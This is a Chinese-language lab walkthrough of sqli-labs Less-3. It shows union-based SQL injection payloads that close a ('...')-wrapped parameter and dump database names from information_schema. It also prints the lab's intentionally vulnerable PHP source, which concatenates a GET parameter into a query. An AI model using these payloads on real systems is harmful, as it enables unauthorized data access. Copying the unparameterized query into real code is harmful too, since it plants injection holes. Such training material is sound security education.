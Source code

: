 # Less-3 **GET Error Based-String(with Twist)**
TAG：GET注入、字符型注入  
## 漏洞利用
此less展示了略有变形的字符型注入  
当在参数后加上单引号'进行测试时，出现如下报错信息  
![less3_1](images\less3_1.png)  
通过报错信息可知，参数的包裹方式发生了变化，现在需要构造这样的语句:```?id=1')```来进行参数的闭合  
在less3中，只是参数的闭合方式发生了改变，恶意语句的构造与less1相似  

探测回显点payload:```?id=0') union select 1,2,3--+```  
![less3_2](images\less3_2.png)  
获得数据库名信息payload:```?id=0') union select 1,2,group_concat(schema_name)from(information_schema.schemata)--+ ```   
![less3_3](images\less3_3.png)  

## 源码分析
### less3源码  
```
<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Transitional//EN" "http://www.w3.org/TR/xhtml1/DTD/xhtml1-transitional.dtd">
<html xmlns="http://www.w3.org/1999/xhtml">
<head>
<meta http-equiv="Content-Type" content="text/html; charset=utf-8" />
<title>Less-3 Error Based- String (with Twist) </title>

</head>

<body bgcolor="#000000">

<div style=" margin-top:60px;color:#FFF; font-size:23px; text-align:center">Welcome&nbsp;&nbsp;&nbsp;<font color="#FF0000"> Dhakkan </font><br>
<font size="3" color="#FFFF00">


<?php
//including the Mysql connect parameters.
include("../sql-connections/sql-connect.php");
error_reporting(0);
// take the variables
if(isset($_GET['id']))
{
$id=$_GET['id'];
//logging the connection parameters to a file for analysis.
$fp=fopen('result.txt','a');
fwrite($fp,'ID:'.$id."\n");
fclose($fp);

// connectivity 


$sql="SELECT * FROM users WHERE id=('$id') LIMIT 0,1";
$result=mysql_query($sql);
$row = mysql_fetch_array($result);

	if($row)
	{
  	echo "<font size='5' color= '#99FF00'>";
  	echo 'Your Login name:'. $row['username'];
  	echo "<br>";
  	echo 'Your Password:' .$row['password'];
  	echo "</font>";
  	}
	else 
	{
	echo '<font color= "#FFFF00">';
	print_r(mysql_error());
	echo "</font>";  
	}
}
	else { echo "Please input the ID as parameter with numeric value";}

?>


</font> </div></br></br></br><center>
<img src="../images/Less-3.jpg" /></center>
</body>
</html>
```  
## 漏洞点分析  
```
$sql="SELECT * FROM users WHERE id=('$id') LIMIT 0,1";
$result=mysql_query($sql);
```  
此页面的漏洞原因和less1相似，只是参数的包裹方式发生了变化  
在此less中，参数id被括号()和单引号'包裹，要进行恶意语句的插入需先对单引号和括号进行闭合，其余并无太多变化即可进行注入  